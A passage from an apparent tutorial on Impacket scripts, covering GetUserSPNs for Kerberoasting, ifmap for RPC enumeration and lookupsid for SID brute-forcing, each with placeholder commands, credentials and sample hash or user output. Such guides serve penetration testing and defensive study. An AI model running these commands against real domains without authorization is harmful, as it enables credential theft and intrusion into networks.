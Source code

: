 **Use Case**: Obtains TGTs for further Kerberos attacks.[](https://www.kali.org/tools/impacket-scripts/)

### 13. GetUserSPNs.py
**Purpose**: Identifies Service Principal Names (SPNs) for Kerberoasting.

**Usage Example**:
```bash
impacket-GetUserSPNs -dc-ip 192.168.1.100 -request example.local/user1:Password123
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-request`: Requests TGS for SPNs (for Kerberoasting).
- `example.local/user1:Password123`: Credentials.

**Example Output**:
```
ServicePrincipalName: MSSQLSvc/server01.example.local
$krb5tgs$23$...
```

**Use Case**: Extracts TGS hashes for offline cracking.[](https://pypi.org/project/impacket/0.9.15/)

### 14. ifmap.py
**Purpose**: Enumerates MSRPC interface IDs on a target system.

**Usage Example**:
```bash
impacket-ifmap -target-ip 192.168.1.101
```
**Flag Explanations**:
- `-target-ip 192.168.1.101`: Target machine IP.

**Example Output**:
```
[*] Interface: {12345778-1234-ABCD-EF00-0123456789AB} - Listening
```

**Use Case**: Maps RPC interfaces for service enumeration.[](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

### 15. lookupsid.py
**Purpose**: Brute-forces SIDs to enumerate users and groups.

**Usage Example**:
```bash
impacket-lookupsid -dc-ip 192.168.1.100 example.local/user1:Password123@192.168.1.101
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `example.local/user1:Password123@192.168.1.101`: Target and credentials.

**Example Output**:
```
SID: S-1-5-21-...-500 - administrator
SID: S-1-5-21-...-501 - guest
```
